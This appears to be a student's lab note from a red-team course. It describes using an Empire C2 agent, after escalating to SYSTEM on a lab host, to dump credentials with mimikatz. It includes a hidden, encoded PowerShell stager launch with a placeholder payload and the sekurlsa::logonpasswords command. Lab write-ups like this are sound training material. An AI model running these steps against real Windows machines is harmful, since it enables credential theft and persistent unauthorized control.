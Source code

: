 #### Tags: [[06 - Privilege Escalation (TA0004)]] [[Empire C2]]

## Overview 
- Goal: Use our elevated agent to pull password hashes using mimikatz. 

### Operating via Agent or PowerShell
Always check for the following:
1. Integrity - High
2. Running as - System
3. Arch / Bit - 32 Bit will show as x86 Architecture or 64 Bit PowerShell Process

This is due to the fact that the binary we compiled with PowerUp is only 32-bit and there is not a 64-bit option.
- If we run mimikatz with this agent, it will fail due to the architecture mismatch. In fact, many of the modules will not function properly with this 32-bit agent. 

### PowerShell Process
On 64-bit Windows, the System32 folder holds the 64-bit binaries and the SysWOW64 folder holds the 32-bit binaries. Remember that WOW64 stands for "Windows 32-bit on Windows 64-bit"

`32-bit (x86) PowerShell is located at %SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe

`64-bit (x64) PowerShell is located at %SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe

Note: We cannot spawn a 64 bit PS from a 32 bit agent. To spawn a new process / agent:
`C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe -noP -sta -w 1 -enc  <ENCODED_PART_OF_STAGER>`
- Observe, we now have a new agent that is a 64-bit process running as SYSTEM!

![[Pasted image 20240331023805.png]]
## Exploitation 
Interact with your new 64-bit agent, select `powershell/credentials/mimikatz/logonpasswords` from the Execute Module drop down list. Then click the SUBMIT button.
- `mimikatz(powershell) # sekurlsa::logonpasswords`

![[Pasted image 20240331023854.png]]

## Conclusion
In this lab we took advantage of our foothold on wk01.draconem.io. 
- First, we had to make sure it was safe to operate. We used Seatbelt to pull a lot of information from the system, we reviewed the results and didn't notice anything particularly risky to our engagement.
- Then we continued host-based discovery in search of Privilege Escalation opportunities with PowerUp. 
- Once we found the unquoted service path we had to jump through a few hoops to take advantage of it. 
- In the end we were able to elevate to SYSTEM and we dumped password hashes! Now we have a new password hash for the user Wesley.Thurner.